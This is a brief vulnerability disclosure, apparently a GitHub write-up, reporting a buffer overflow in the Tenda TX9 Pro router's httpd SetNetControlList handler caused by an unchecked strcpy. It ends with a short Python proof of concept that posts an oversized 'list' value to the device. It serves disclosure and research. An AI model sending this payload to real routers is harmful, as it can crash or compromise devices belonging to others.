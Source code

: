 # buffer overflow

## Tenda_TX9pro

version: V22.03.02.10

## Description:

There is a buffer overflow in httpd/SetNetControlList

## Source:

you may download it from : [http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36](https://www.tendacn.com/download/detail-4219.html)

## Analyse:


![](https://s3.bmp.ovh/imgs/2022/08/15/8d0b6100485e0583.png)

get value from list and send it to sub_43157C

![](https://s3.bmp.ovh/imgs/2022/08/15/1c5219ca8c53bd1b.png)

don't check the length of a1 and call strcpy


## POC
```
url = "http://192.168.1.13/goform/SetNetControlList"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'list': payload})
```
